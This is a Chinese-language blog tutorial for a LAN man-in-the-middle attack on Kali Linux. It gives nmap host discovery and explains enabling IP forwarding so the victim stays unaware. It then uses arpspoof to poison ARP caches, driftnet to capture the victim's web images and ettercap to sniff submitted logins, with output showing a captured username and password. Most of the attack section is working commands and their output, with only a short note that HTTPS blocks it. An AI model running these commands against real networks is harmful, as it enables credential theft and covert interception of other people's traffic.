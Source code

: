```yaml
---
title: arp-截取web图片与账号密码
author: doudio
date: 2019-06-02
categories: [Linux, kaili]
tags: [Linux, kaili]
---
```


> ## arp 截取web图片与账号密码

* #### 进行 arp 欺骗

```shell
# 扫描同网段的机器
nmap -sP 192.168.10.*

​```result
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 04:59 EDT
Nmap scan report for 192.168.6.2
Host is up (0.00036s latency).
MAC Address: 00:50:56:FF:00:94 (VMware)
Nmap scan report for 192.168.6.136
Host is up (0.00071s latency).
MAC Address: 00:0C:29:86:5C:97 (VMware)
Nmap scan report for 192.168.6.254
Host is up (0.000091s latency).
MAC Address: 00:50:56:EC:33:4B (VMware)
Nmap scan report for 192.168.6.135
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.94 seconds
​```

# arp 欺骗之前必须要开启IP转发, 否则当欺骗成功之后, 目标机会断网, 这样会被对方察觉; 输出1,说明已经成功开启IP转发
# 设置ip转发
sysctl -w net.ipv4.ip_forward=1
cat /proc/sys/net/ipv4/ip_forward

​```result
1
​```

# 查询自己的ip
ifconfig

​```result
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.6.135  netmask 255.255.255.0  broadcast 192.168.6.255
        inet6 fe80::20c:29ff:fe14:4633  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:14:46:33  txqueuelen 1000  (Ethernet)
        RX packets 691734  bytes 757137083 (722.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9398  bytes 639148 (624.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 60  bytes 2676 (2.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 60  bytes 2676 (2.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
​```

# 语法 arpspoof -i <网卡> -t <目标机器IP> <目标机器IP> 
# 目标机器IP 可以是一个ip段 Demo
arpspoof 192.168.6.1 192.168.6.255

​```result
0:c:29:14:46:33 0:0:0:0:0:0 0806 42: arp reply 192.168.6.255 is-at 0:c:29:14:46:33
0:c:29:14:46:33 0:0:0:0:0:0 0806 42: arp reply 192.168.6.255 is-at 0:c:29:14:46:33
0:c:29:14:46:33 0:0:0:0:0:0 0806 42: arp reply 192.168.6.255 is-at 0:c:29:14:46:33
​```

# 此时可以看一下目标主机ARP缓存对比
arp -a

​```result
接口: 192.168.6.136 --- 0x6
  Internet 地址         物理地址              类型
  192.168.6.2           00-50-56-ff-00-94     动态
  192.168.6.135         00-0c-29-14-46-33     动态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.251           01-00-5e-00-00-fb     静态
  224.0.0.252           01-00-5e-00-00-fc     静态
  239.255.255.250       01-00-5e-7f-ff-fa     静态
  255.255.255.255       ff-ff-ff-ff-ff-ff     静态

----------------------old/new----------------------

接口: 192.168.6.136 --- 0x6
  Internet 地址         物理地址              类型
  192.168.6.2           00-50-56-ff-00-94     动态
  192.168.6.135         00-0c-29-14-46-33     动态
  192.168.6.254         00-50-56-ec-33-4b     动态
  224.0.0.22            01-00-5e-00-00-16     静态
  224.0.0.251           01-00-5e-00-00-fb     静态
  224.0.0.252           01-00-5e-00-00-fc     静态
  239.255.255.250       01-00-5e-7f-ff-fa     静态
  255.255.255.255       ff-ff-ff-ff-ff-ff     静态
​```
```

* 有部分系统可能没有安装 arpspoof 执行指令时找不到
  * 一般情况
    * sudo apt-get update
    * apt-get install dsniff ssldump
  * 非一般情况
    * cd /etc/apt/
    * sudo cp sources.list sources.list.bb 
    * echo 'dev http://archive.ubuntu.com/ubuntu/ trusty main universe restricted multiverse ' >> sources.list
    * sudo apt-get update
      * 如果更新是出现 由于没有公钥, 无法验证下列签名: NO_PUBKEY 40976EAF437D05B5 NO_PUBKEY 3B4FE6ACC0B21F32 就执行如下指令
        * sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 40976EAF437D058B5
        * sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 3B4FE6ACC0B21F32 
        * sudo apt-get update
    * apt-get install dsniff ssldump
  * arpspoof 安装成功

* #### 开始抓取web图片

```shell
# 在 arpspoof 启动的基础上
# 安装 driftnet
apt-get install driftnet
# 启动监听网卡 语法 driftnet -i <网卡> -d <保存的本地目录> -a # -a后台启动
driftnet -i eth0 -d arpImg -a
```

* #### 开始抓取web提交的账号密码

```shell
# 这条命令表示监控eth0网卡的流量 ettercap 语法 -T 文本模式运行 -q 安静模式 -i 网卡, 后接网卡名
ettercap -Tq -i eth0

​```result
HTTP : 121.41.88.106:80 -> USER: admin  PASS: 123465  INFO: http://www.xnote.cn/                                            
CONTENT: username=admin&password=123465
​```
```

* #### 实战后总结

  * 目标机器被arp欺骗后 google chrome 访问正常的页面会提示不安全的连接
  *  https 类型的连接可以避免: 抓取web图片 与 web 提交的账号密码